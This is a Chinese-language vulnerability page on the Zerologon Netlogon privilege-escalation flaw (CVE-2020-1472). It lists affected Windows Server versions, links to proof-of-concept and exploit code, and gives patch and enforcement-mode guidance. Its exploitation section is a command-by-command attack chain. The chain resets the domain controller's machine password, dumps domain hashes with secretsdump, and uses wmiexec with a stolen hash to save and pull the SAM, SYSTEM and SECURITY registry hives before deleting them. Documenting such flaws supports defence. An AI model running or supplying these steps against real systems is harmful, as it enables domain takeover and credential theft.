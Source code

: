 ```yaml
---
title: 'Netlogon-特权提升漏洞（CVE-2020-1472）.assets'
date: Tue, 15 Sep 2020 00:55:05 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 背景

NetLogon特权提升漏洞（CVE-2020-1472）的详细信息与验证脚本，导致漏洞风险骤然提升。未经身份验证的攻击者通过NetLogon远程协议（MS-NRPC）建立与域控制器连接的 安全通道时，可利用此漏洞获取域管理员访问权限。此漏洞为微软8月补丁更新时披露，CVSS评分为10，影响广泛，请相关用户尽快采取措施进行防护。

#### 受影响版本

Windows Server 2008 R2 for x64-based Systems Service Pack 1 Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation) Windows Server 2012 Windows Server 2012 (Server Core installation) Windows Server 2012 R2 Windows Server 2012 R2 (Server Core installation) Windows Server 2016 Windows Server 2016 (Server Core installation) Windows Server 2019 Windows Server 2019 (Server Core installation) Windows Server, version 1903 (Server Core installation) Windows Server, version 1909 (Server Core installation) Windows Server, version 2004 (Server Core installation)

#### 漏洞检测

poc 链接：`https://pan.baidu.com/s/1_RpVEA4W_Lo_ildh-FdqKQ` 提取码：tilx 受影响版本主机，检测验证结果如下： ![](Netlogon-特权提升漏洞（CVE-2020-1472）.assets.assets/16273646675464802.jpg)

#### 漏洞利用

1.重置密码，获取域内所有的用户hash，利用exp：`https://github.com/dirkjanm/CVE-2020-1472````
py -3 cve-2020-1472-exploit.py dc-01 192.169.1.253 
```2.Dump域控制上的hash```
py -3 secretsdump.py xxxxx/dc-01\$@192.168.1.253 -no-pass 
```3.利用获取到的管理员hash远程连接导出sam数据库中原来的计算机hash```
py -3 wmiexec.py -hashes [hash] xxxx/administrator@192.168.1.253
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg saveHKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f  sam.save
del /f security.save
exit

py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL 
从而获取到MACHINE.ACC：xxxxxxxxxxxxxxxxxxx 
```4.恢复ntds.dit中的计算机hash并验证：`https://github.com/risksense/zerologon` 需要注意的是最后的hash使用的是上图获取到的MACHINE.ACC”:”后面的部分。```
py -3 reinstall_original_pw.py dc-01 192.168.253.163 [上一步获取到的hash] 
```5.最后验证密码是否已经改回去，注意结尾是$。```
py -3 secretsdump xxxx/administrator:admin123#@\!..@192.168.1.253 -just-dc-user dc-01\$ 

```

#### 漏洞防护

1)官方升级 目前微软官方已针对受支持的产品版本发布了修复此漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接： `https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472` 2）其他防护措施 在安装更新补丁后，还可通过部署域控制器 (DC) 强制模式以免受到该漏洞影响： 请参考官方文档进行配置《如何管理与 CVE-2020-1472 相关的 Netlogon 安全通道连接的更改》： `https://support.microsoft.com/zh-cn/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc`

#### 注意事项

由于网络问题、计算机环境问题等原因，Windows Update的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。 补丁更新确认： 右键点击Windows图标，选择“设置(N)”，选择“更新和安全”-“Windows更新”，查看该页面上的提示信息，也可点击“查看更新历史记录”查看历史更新情况。 针对未成功安装的更新，可点击更新名称跳转到微软官方下载页面，建议用户点击该页面上的链接，转到“Microsoft更新目录”网站下载独立程序包并安装。
```



## 演示截图

![img](Netlogon-特权提升漏洞（CVE-2020-1472）.assets/img20200915085843.png)

## exp

exp目前已经公布，地址为
 https://github.com/blackarrowsec/redteam-research